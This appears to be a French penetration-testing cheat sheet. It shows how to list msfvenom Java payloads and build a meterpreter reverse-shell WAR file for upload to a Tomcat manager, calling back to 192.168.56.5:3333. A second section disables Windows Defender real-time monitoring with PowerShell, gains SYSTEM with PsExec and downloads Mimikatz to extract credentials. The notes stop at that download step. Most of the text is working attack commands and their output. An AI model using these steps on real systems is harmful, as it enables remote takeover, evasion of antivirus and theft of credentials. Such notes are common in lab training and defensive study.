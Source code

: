 ## Tomcat 

On a un tomcat manager. On peut essayer d'uploader un reverse shell sur le serveur.


Lister les payloads java :
```bash
$ msfvenom -l payloads | grep java                                                         
    java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                           Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                       Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                 Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                              Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
```

Créer un reverse shell avec meterpreter : 
```bash
$ msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.5 LPORT=3333 -f war > shell.war
Payload size: 6259 bytes
Final size of war file: 6259 bytes
```

# Extraire des credentials avec Mimikatz

Ouvrir un powershell (en tant qu'administrateur).

Désactiver temprorairement l'antivirus en powershell:
`Set-MpPreference -DisableRealtimeMonitoring $true`

Télécharger PSexec

[https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

Devenir NT \System avec PSexec :

`.\PSexec64.exe -s -i powershell.exe`

Télécharger Mimikatz :
[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

Choisir le format zip, et faire un clic droit "Extraire tout".
